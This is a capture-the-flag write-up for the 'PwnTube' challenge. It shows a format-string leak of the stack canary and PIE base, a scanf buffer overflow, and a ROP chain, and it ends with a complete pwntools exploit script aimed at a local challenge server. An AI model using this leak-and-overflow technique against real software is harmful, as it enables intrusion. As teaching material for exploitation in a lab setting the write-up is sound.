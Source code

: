 This executable attempts to mimic the layout of YouTube, showcasing a video titled "How to get the flag".
Unfortunately we cannot see the video because of an unskippable ad, featuring Rick Astley.

We are dealing with a 64 bit ELF executable, with PIE, Partial RELRO, NX enabled and canary.

The vulnerabilities in this binary are very easy to find and they are essentially two:
  - A format string vulnerability
  - A buffer overflow vulnerability

The format string vulnerability is in the showComments() function, that prints every comment in a unsafe way:

                                      for (int i=0; i < n_comments; i++){
                                                  printf(comments[i]);
                                              }

We can exploit this vulnerability to leak both the canary and a PIE address, since the program allow us to add exacly two comments.

To easily interact with the executable i wrote a few helper functions:

                                      def menu_choice(r, choice):
                                          r.sendline(str(choice).encode())
                                      
                                      def get_nth_comment(r, n_comment):
                                          menu_choice(r, 3)
                                          r.recvuntil(b'Comments')
                                          r.recvlines(2)
                                          comments = r.recvuntil(b'1. Play').split(b'\n')[:-2]
                                      
                                          return comments[n_comment-1]
                                      
                                      def add_comment(r, comment):
                                          menu_choice(r, 4)
                                          r.sendline(comment)
                                      
                                      def buy_premium(r, name, card_number):
                                          menu_choice(r, 5)
                                          menu_choice(r, 2)
                                      
                                          r.recvuntil(b'name:')
                                          r.sendline(name)
                                          r.recvuntil(b'number:')
                                          r.sendline(card_number)


After playing with the executable and debugging it with gdb i found that we can leak the canary with the comment "71$p" and the address of the main function with "%55$p", so i added this comments:

                                      add_comment(r, b'%71$p')
                                      add_comment(r, b'%55$p')
                                      canary = int(get_nth_comment(r,9), 16)
                                      leak_main = int(get_nth_comment(r,10), 16)

Easy peasy, now we have the canary and we can also compute the base address: 

                                      exe.address = leak_main - exe.sym['main']

We move on to the second phase of the attack, that consists of exploiting the buffer overflow that's inside the buy_premium() function:

                                      printf("Insert your name:\n");
                                      
                                      scanf("%s", name);

To access this function, we have to enable the "debug mode" by sending the number 777 in the main menu.

                                      case 5:
                                          if(debug){
                                              buy_premium();
                                          }
                                          else{
                                              printf("Sorry, this functionality is under maintenance :)");
                                          }   
                                          break;
                                      case 777:
                                          debug = !debug;
                                          break;

Our goal at this point is to call the function skipAd() and passing the values 0xdeadbeef and 0xfeedface.
We can achieve this by exploiting the BOF in the scanf and by using the following gadget:
                        
                              0x00000000000015a8: pop rdi; pop rsi; pop rdi; ret; 

Our final payload is going to look like this:
        
                                        payload = flat(
                                                b'A' * offset,
                                                canary,
                                                rop.ret.address,
                                                rop.ret.address,
                                                gadget,
                                                0, # junk value
                                                0xfeedface, # rsi
                                                0xdeadbeef, # rdi
                                                rop.ret.address,
                                                rop.ret.address,
                                                exe.sym['skipAd']
                                            )

And here's the full exploit:

```
#!/usr/bin/env python3

from pwn import *

exe = ELF("./PwnTube")

context.binary = exe
remote_address = 'localhost'
port = 1337


def conn():
    if args.LOCAL:
        r = process([exe.path])
    elif args.GDB:
        # GDB code 
        r = gdb.debug(exe.path, '''
        
        
        ''')
    else:
        r = remote(remote_address, port)

    return r

def menu_choice(r, choice):
    r.sendline(str(choice).encode())

def get_nth_comment(r, n_comment):
    menu_choice(r, 3)
    r.recvuntil(b'Comments')
    r.recvlines(2)
    comments = r.recvuntil(b'1. Play').split(b'\n')[:-2]

    return comments[n_comment-1]

def add_comment(r, comment):
    menu_choice(r, 4)
    r.sendline(comment)

def buy_premium(r, name, card_number):
    menu_choice(r, 5)
    menu_choice(r, 2)

    r.recvuntil(b'name:')
    r.sendline(name)
    r.recvuntil(b'number:')
    r.sendline(card_number)

def main():
    
    r = conn()

    # Init ROP
    add_comment(r, b'%71$p')
    add_comment(r, b'%55$p')
    canary = int(get_nth_comment(r,9), 16)
    leak_main = int(get_nth_comment(r,10), 16)

    menu_choice(r, 777)

    exe.address = leak_main - exe.sym['main']
    rop = ROP(exe)

    # Set offset
    offset = 0x200 - 8

    gadget = 0x15a8+exe.address

    payload = flat(
        b'A' * offset,
        canary,
        rop.ret.address,
        rop.ret.address,
        gadget,
        0,
        0xfeedface,
        0xdeadbeef,
        rop.ret.address,
        rop.ret.address,
        exe.sym['skipAd']
    )


    buy_premium(r, payload, b'srdnlen')
    
    flag = r.recvrepeat(7).split(b'\n')[-2].decode()
    
    print(flag)

    r.close()
    
    


if __name__ == "__main__":
    main()
```
                                        
                                        
